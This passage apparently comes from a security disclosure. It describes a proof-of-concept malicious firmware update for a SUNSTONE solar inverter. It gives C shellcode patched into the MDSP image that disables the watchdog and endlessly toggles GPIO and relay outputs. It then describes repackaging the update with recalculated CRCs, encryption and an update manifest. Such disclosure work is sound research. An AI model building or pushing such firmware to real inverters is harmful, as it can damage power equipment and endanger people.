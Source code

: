In the original MDSP update image - application part - a branch to the shellcode has been added after initialization, at address `0x0009A242`. The shellcode itself has been placed in some free place in the flash image. Here is the c code used to generate the shellcode:

```c
void dothat()
{
    long i;

    // disable all IRQ
    DINT;
    // allow access to system reg
    EALLOW;
    // switch off watchdog (! bits 5..3 have to be 101 !)
    WdRegs.WDCR.all = 0x00EF;

    // set GPIO0..5 as GPIO and OUTPUT
    GpioCtrlRegs.GPAMUX1.bit.GPIO4 = 0x0000;
    GpioCtrlRegs.GPAMUX1.bit.GPIO5 = 0x0000;

    GpioCtrlRegs.GPADIR.bit.GPIO4 = 0x1;
    GpioCtrlRegs.GPADIR.bit.GPIO5 = 0x1;

    // set OE as output, GPIO
    GpioCtrlRegs.GPBMUX1.bit.GPIO44 = 0x0000;
    GpioCtrlRegs.GPBDIR.bit.GPIO44 = 0x1;
    // clear bit == OE active
    GpioDataRegs.GPBCLEAR.bit.GPIO44 = 0x1;

	// endless loop
    while(1)
    {
        for(i = 0; i < 5000000; i++);

        // H T
        GpioDataRegs.GPATOGGLE.bit.GPIO4 =0x1;
        GpioDataRegs.GPATOGGLE.bit.GPIO5 =0x1;
        // relays
        GpioDataRegs.GPBTOGGLE.bit.GPIO45 =0x1;
        GpioDataRegs.GPCTOGGLE.bit.GPIO73 =0x1;
    }
}
```

A `sgu` file called `SUNSTONE-S_03011.01.20.sgu` has been built based on the modified binary, with all CRCs recalculated and using encryption as described previously. 

A `zip` file called `POCD.zip` has been generated with following files:

* `datetime` (not changed)
* `SUNSTONE-S_03011.01.20_DECRYPTED.sgu`
* `Version instruction.xml` with following content:

```
<?xml version='1.0' encoding='utf-8'?>
<root type="inverter">
	<point name="SUNSTONE-S_03011.01.20.sgu" type="inverter" update_seq="1" />
</root>
```
